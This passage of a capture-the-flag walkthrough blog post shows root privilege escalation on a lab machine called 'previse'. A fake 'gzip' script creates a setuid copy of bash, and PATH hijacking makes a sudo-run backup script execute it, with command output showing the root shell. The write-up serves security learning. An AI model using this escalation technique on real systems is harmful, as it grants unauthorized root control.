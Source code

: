 - What we can do now is let's create a file named `gzip` in the home directory and write the following command in it `cp bin/bash /tmp/shell;chmod +s /tmp/shell" >gzip` and give it execute permissions.
- This command copies the `/bin/bash` to the `/tmp/shell` and give it `SETUID` permissions by root.

```bash
m4lwhere@previse:~$ echo "cp /bin/bash /tmp/shell;chmod +s /tmp/shell" >gzip
m4lwhere@previse:~$ chmod +x gzip
```

- We need to edit the PATH variable and add our home directory to the existing PATH.

```bash
m4lwhere@previse:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
m4lwhere@previse:~$ export PATH=.:$PATH
m4lwhere@previse:~$ echo $PATH
.:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

- Now run the script `/opt/scripts/access_backup.sh` using `sudo` and we can see that a fine named `shell` has been created with `setuid` permissions.

```bash
m4lwhere@previse:~$ sudo /opt/scripts/access_backup.sh 
m4lwhere@previse:~$ ls -la /tmp
total 1132
drwxrwxrwt 11 root root    4096 Jan 14 15:11 .
drwxr-xr-x 24 root root    4096 Jul 27 15:04 ..
drwxrwxrwt  2 root root    4096 Jan 13 13:58 .font-unix
drwxrwxrwt  2 root root    4096 Jan 13 13:58 .ICE-unix
-rwsr-sr-x  1 root root 1113504 Jan 14 15:11 shell
drwx------  3 root root    4096 Jan 13 13:58 systemd-private-   76da6398858148ff8a83d3a22b228999-apache2.service-GR9KvQ
drwx------  3 root root    4096 Jan 13 13:58 systemd-private-76da6398858148ff8a83d3a22b228999-systemd-resolved.service-uqiqrj
drwx------  3 root root    4096 Jan 13 13:58 systemd-private-76da6398858148ff8a83d3a22b228999-systemd-timesyncd.service-Q4UwWW
drwxrwxrwt  2 root root    4096 Jan 13 13:58 .Test-unix
drwx------  2 root root    4096 Jan 13 13:58 vmware-root_853-4022308820
drwxrwxrwt  2 root root    4096 Jan 13 13:58 .X11-unix
drwxrwxrwt  2 root root    4096 Jan 13 13:58 .XIM-unix
```

- Now we can set our effective UID to root by executing with the `p` flag

```bash
m4lwhere@previse:~$ /tmp/shell -p
shell-4.4# whoami
root
shell-4.4# cd /root
shell-4.4# wc root.txt 
 1  1 33 root.txt
shell-4.4#
```

- Now we are root :)

Thanks for reading! Make sure you subscribe to the blog for more upcoming Try Hack Me writeups!

NOTE: The incredible artwork used in this article was created by @[mayanguyen](https://dribbble.com/mayanguyen).